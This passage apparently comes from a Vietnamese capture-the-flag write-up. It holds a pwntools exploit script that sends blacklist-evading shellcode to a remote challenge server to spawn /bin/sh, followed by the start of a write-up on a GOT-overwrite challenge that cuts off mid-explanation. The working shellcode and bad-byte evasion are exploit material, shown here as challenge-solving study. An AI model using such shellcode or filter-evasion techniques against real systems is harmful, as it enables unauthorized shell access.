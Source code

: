 from pwn import *

context.binary = exe = ELF('./execute',checksec=False)

#p = process()
p = remote('94.237.59.180',32981)
#gdb.attach(p,gdbscript='''
#            brva 0x000000000000134f
#            brva 0x000000000000139b
#            ''')
input()
blacklist = b"\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67"



shellcode = asm('''
                    mov rax, 0x2a2a2a2a2a2a2a2a
                    push rax

                    mov rax, 0x2a2a2a2a2a2a2a2a ^ 0x68732f6e69622f
                    xor [rsp],rax
                    mov rdi,rsp

                    push 0x0
                    pop rsi
                    push 0x0
                    pop rdx
                    push 0x3a
                    pop rax

                    add al,1
                    syscall
                ''',arch='amd64')

for byte in shellcode:

    if byte in blacklist:
        print(f"Bad byte -->> 0x{byte:02x}")
        print(f'ASCII -->> {chr(byte)}')


p.sendafter(b'everything\n',shellcode)

p.interactive()
```


--------

6 . Great Old Talisman (overwrite GOT)
------

1 bài OOB để ghi đè got

vì dễ nên nói ngắn gọn 

nó cho ta nhập 1 số và tiếp theo là read ở 1 địa chỉ bss với idx là số đã nhập 
![image](https://hackmd.io/_uploads/HJY3aRKZJx.png)

- thường thì thấy những bài idx này sẽ liên tưởng tới OOB , sau khi nhập xong thì nó exit nên chỉ có thể lựa chọn exit để ghi , ta được ghi 2 byte , vậy lấy 2 byte của read_flag và ghi vào thôi


tính idx như sau : 

```